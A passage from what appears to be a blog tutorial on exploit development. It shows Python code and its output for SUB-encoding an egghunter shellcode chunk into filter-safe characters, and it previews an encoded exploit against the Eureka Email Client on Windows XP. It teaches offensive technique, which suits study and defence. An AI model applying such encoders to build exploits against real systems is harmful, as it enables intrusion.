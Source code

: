 ```py
    print("Two's complement bytes:\n{}".format(target_bytes))

    good_chars = [i for i in range(20,128)]
    print("Good characters:\n{}".format(good_chars))

    carry = False

    for i in range(len(target_bytes)):
        target_i = int(target_bytes[i],16)
        if (carry):
            target_i -= 1
        if (target_i < 96):
            target_i += 256
            carry = True
        else:
            carry = False
      
        curr += restricted_partitions(target_i, good_chars, len(good_chars), 3, [], 0)
    
    format_summands(curr)

    

test_partitions()

```

Output of <b>partitions-test.py</b>:
```
# ./partitions-test.py
Two's complement bytes:
['18', '00', '18', '8b']
Good characters:
[20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 58, 59, 60, 61, 62, 63, 64, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 91, 92, 93, 94, 95, 96, 97, 98, 99, 100, 101, 102, 103, 104, 105, 106, 107, 108, 109, 110, 111, 112, 113, 114, 115, 116, 117, 118, 119, 120, 121, 122, 123, 124, 125, 126, 127]
Integer partitions:
[[47, 46, 46], [94, 93, 93], [85, 85, 85], [93, 93, 93]]
Summands:
[['\\x5d\\x55\\x5d\\x2e', '\\x5d\\x55\\x5d\\x2e', '\\x5d\\x55\\x5e\\x2f']]
```

We can check that when our summands are subtracted from 0, the result will be the last 4-byte chunk of our egghunter in little-endian format:<br>
<b>0</b> - <b>0x5d555d2e</b> - <b>0x5d555d2e</b> - <b>0x5d555e2f</b> = <b>0xe7ffe775</b>

Aside from taking the two's complement of 4-byte egghunter chunks, the rest of our program will consist of functions that handle the formatting of user input from stdin and output for stdout.

In the next post, we will take the entire Automated Solution outline created in Part 1 and translate it into Python code. When we are finished, we'll put our encoder to the test by generating an encoded egghunter exploit for the Eureka Email Client on a Windows XP box. 
